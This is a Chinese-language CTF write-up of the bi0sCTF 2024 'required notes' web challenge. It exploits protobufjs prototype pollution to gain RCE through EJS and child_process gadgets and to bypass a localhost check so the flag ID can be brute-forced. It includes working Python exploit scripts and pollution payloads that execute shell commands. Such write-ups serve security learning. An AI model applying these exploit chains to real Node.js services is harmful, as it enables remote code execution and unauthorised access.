







required note
用npm audit搜索历史漏洞。发现一个原型链污染的漏洞。
POC:
const protobuf = require("protobufjs");
protobuf.parse('option(a).constructor.prototype.verified = true;');
console.log({}.verified);
// returns true
/create会进行protojs解析。
app.post('/create', (req, res) => {
requestBody=req.body
try{
schema = fs.readFileSync('./settings.proto', 'utf-8');
root = protobuf.parse(schema).root;
Note = root.lookupType('Note');
[...]
在/customise可以修改settings.proto文件。
app.post('/customise',(req, res) => {
try {
const { data } = req.body;
let author = data.pop()['author'];
let title = data.pop()['title'];
let protoContents = fs.readFileSync('./settings.proto', 'utf-8').split('\n');
if (author) {
protoContents[5] = ` ${author} string author = 3 [default="user"];`;
}
if (title) {
protoContents[3] = ` ${title} string title = 1 [default="user"];`;
}
fs.writeFileSync('./settings.proto', protoContents.join('\n'), 'utf-8');
return res.json({ Message: 'Settings changed' });
} catch (error) {
console.error(error);
res.status(500).json({ Message: 'Internal server error' });
}
})
解题思路（非预期）是通过原型链污染到ejs render渲染rce。ejs利用链参考：https://mizu.re/post/ejs-server-side-prototype-pollution-gadgets-to-rce
POC：
import requests
base_url = 'http://192.168.72.137:3000'
payloads = [
'option(a).constructor.prototype.client = 1;'.strip(),
'option(a).constructor.prototype.escapeFunction = "JSON.stringify; process.mainModule.require(\'child_process\').exec(\'touch /tmp/poc\')";'.strip()
]
for i in payloads:
# 写入settings.proto
sp = requests.post(url=base_url+'/customise',json={
"data" : [
{"title" : "optional"},
{"author" : i + "optional"}
]
})
# 污染
sp = requests.post(url=base_url+'/create',json={"test" : "test"})
sp = requests.get(url=base_url+'/customise') # 执行render渲染达成rce
 这个解法根本用不到bot
踩坑
在原型链污染的时候会报如下错误： 有一种无法污染的假象，其实通过debug可以发现，虽然报错了但污染也成功了。
对Dockerfile做下修改 npm install挂代理，修改部分目录权限(方便vscode ssh链接，尤其是不是root用户的情况下)，最主要的是注释掉node index.js：
FROM node:20.2.0-alpine
RUN apk update && apk upgrade
RUN apk add chromium
WORKDIR /app
COPY . /app/
RUN mkdir -p /app/notes
RUN npm config set proxy=socks5://192.168.136.1:7890 && PUPPETEER_SKIP_CHROMIUM_DOWNLOAD=1 npm install && npm config delete proxy
RUN chmod +x /app/index.js
RUN rm *.json
RUN adduser -D -u 1001 bot && chown -R bot:bot /app/notes && chown bot:bot /app/settings.proto && chmod 777 -R /app && chmod 777 -R /home/bot
USER bot
ENV PUPPETEER_EXECUTABLE_PATH=/usr/bin/chromium-browser
#ENTRYPOINT ["node", "index.js"]
docker run -it -p 3000:3000 <image-id>
然后使用vscode连接容器ssh。参考：https://www.cnblogs.com/booturbo/p/16323439.html
启动debug 
在执行render时打断点，发现已经污染成功。

其他的RCE利用方式
第一种
作者原文：https://hackmd.io/@r2dev2/Hkj7IhP3T
hacktrick上有许多污染child_process相关变量进行rce的方法：https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution/prototype-pollution-to-rce
通过spawn函数和cmdline的poc：
// cmdline trick - working with small variation (shell)
// NOT working after kEmptyObject (fix) without options
const { spawn } = require('child_process');
p = {}
p.__proto__.shell = "/proc/self/exe" //You need to make sure the node executable is executed
p.__proto__.argv0 = "console.log(require('child_process').execSync('touch /tmp/spawn-cmdline').toString())//"
p.__proto__.NODE_OPTIONS = "--require /proc/self/cmdline"
var proc = spawn('something');
//var proc = spawn('something',[],{"cwd":"/tmp"}); //To work after kEmptyObject (fix)
而且bot通过puppeteer启动chrome浏览器时会调用spawn函数。从而实现rce。
这种方法在revenge上不能用。
第二种
作者原文：https://gist.github.com/arkark/4a70a2df20da9732979a80a83ea211e2
这里的POC revenge和non-revenge均可。
泄露flagid的解法
作者原文：https://siunam321.github.io/ctf/bi0sCTF-2024/Web-Exploitation/required-notes/
/search搜索note时使用了glob，glob协议可以使用通配符，有利用的可能。
app.get('/search/:noteId', (req, res) => {
const noteId = req.params.noteId;
const notes=glob.sync(`./notes/${noteId}*`);
if(notes.length === 0){
return res.json({Message: "Not found"});
}
else{
try{
fs.accessSync(`./notes/${noteId}.json`);
return res.json({Message: "Note found"});
}
catch(err){
return res.status(500).json({ Message: 'Internal server error' });
}
}
})
通过noteId可以一位一位地获取flagid，但是app.use('/search', restrictToLocalhost);限制了/search的访问IP。
const restrictToLocalhost = (req, res, next) => {
const remoteAddress = req.connection.remoteAddress;
if (remoteAddress === '::1' || remoteAddress === '127.0.0.1' || remoteAddress === '::ffff:127.0.0.1') {
next();
} else {
res.status(403).json({ Message: 'Access denied' });
}
};
所以我们只要将remoteAddress污染为127.0.0.1就可以了。
踩坑
地址修改不成功 原因是获取req.connection中的remoteAddress不是直接获取的。   所以我们需要修改address。还有一个问题是在调用remoteAddress之前_peername不会实例化，导致污染无效。 req.connection._getpeername()代码如下：
function() {
if (!this._handle || !this._handle.getpeername || this.connecting) {
return this._peername || {};
} else if (!this._peername) {
const out = {};
const err = this._handle.getpeername(out);
if (err) return out;
this._peername = out;
}
return this._peername;
}
正常情况下会进入else if因为发起请求时_peername尚未实例化，然后通过getpeername(out)给_peername赋值，污染就无效了。
但如果一开始污染_peername，使_peername一开始就有值，就不会进入else if，直接return被污染的_peername。
POC:
import requests
base_url = 'http://192.168.72.137:3000'
flagid = ''
characters = 'abcdefghijklmnopqrstuvwxyz0123456789'
pollu = 'option(a).constructor.prototype._peername.address = "127.0.0.1";'.strip()
sp = requests.post(base_url+'/customise',json={
"data" : [
{"title" : "optional"},
{"author" : pollu + "optional"}
]
})
sp = requests.post(base_url+'/create',json={"asd" : "asd"})
for i in range(16):
for l in characters:
noteid = flagid + l
print(noteid,end='\r')
sp = requests.get(base_url+'/search/'+noteid)
if 'Not found' in sp.text:
continue
elif 'Internal server error' in sp.text:
flagid = flagid + l
break
elif 'Note found' in sp.text:
flagid = flagid + l
print("flagid : "+flagid)
exit()
flagid = flagid + '_'
print("flagid : "+flagid)
预期解
预期是通过原型链污染让bot访问时注入恶意html标签去泄露flagid。POC:https://gist.github.com/Ze-Pacifist/9bcd1072a62bbc5850322878b21bc8c8
之前提到/search使用了glob，预期解是通过原型链污染造成html注入使bot访问/search枚举flagid的每一位。bot禁用了js，所以只能注入html标签打xsleak了。
varietynote
参考
https://www.code-intelligence.com/blog/cve-protobufjs-prototype-pollution-cve-2023-36665
https://mizu.re/post/ejs-server-side-prototype-pollution-gadgets-to-rce
https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution/prototype-pollution-to-rce
https://hackmd.io/@r2dev2/Hkj7IhP3T
https://gist.github.com/Ze-Pacifist/9bcd1072a62bbc5850322878b21bc8c8
https://gist.github.com/arkark/4a70a2df20da9732979a80a83ea211e2